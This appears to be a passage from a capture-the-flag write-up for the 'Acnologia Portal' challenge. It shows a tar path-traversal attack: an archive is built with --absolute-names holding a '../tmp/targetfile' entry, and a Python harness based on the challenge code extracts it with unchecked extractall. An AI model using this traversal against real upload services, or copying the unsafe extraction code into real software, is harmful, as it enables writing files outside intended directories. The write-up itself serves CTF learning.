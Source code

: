 ```bash
/app # 
```

### Path Traversal Using Tar

I was wondering if tar files could be automatically extracted to places other than the current directory. On compressing a tar file, it follows the path

On googling, I found that tar allows for absolute names, like this

```bash
[hacker@hackerbook Acnologia Portal]$ ls
README.md  gen_tar_file  tarfile_test.py  web_acnologia_portal.zip
[hacker@hackerbook Acnologia Portal]$ cd gen_tar_file/
[hacker@hackerbook gen_tar_file]$ ls
tmp  workdir
[hacker@hackerbook gen_tar_file]$ cd workdir/
[hacker@hackerbook workdir]$ tar -czvf test.tar.gz --absolute-names ../tmp/targetfile
../tmp/targetfile
[hacker@hackerbook workdir]$ cp test.tar.gz  /tmp/
[hacker@hackerbook workdir]$ 
[hacker@hackerbook workdir]$ ls ../tmp
targetfile
[hacker@hackerbook workdir]$ cat ../tmp/targetfile
PWNED N00B
[hacker@hackerbook workdir]$ 
```

On testing the extraction, i found out that it would work

```python
# tarfile_test.py: Based off the given code in utils.py
import functools, tarfile, tempfile, os
UPLOAD_FOLDER = "/tmp"
def extract_firmware(path):
    tmp  = tempfile.gettempdir()
    print("### tmp:", tmp, "#"*30)
    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = "rand_dir"
        extractdir = f"{UPLOAD_FOLDER}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    print("### filename:", filename, "#"*30)
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True
        
extract_firmware('/tmp/test.tar.gz')

```
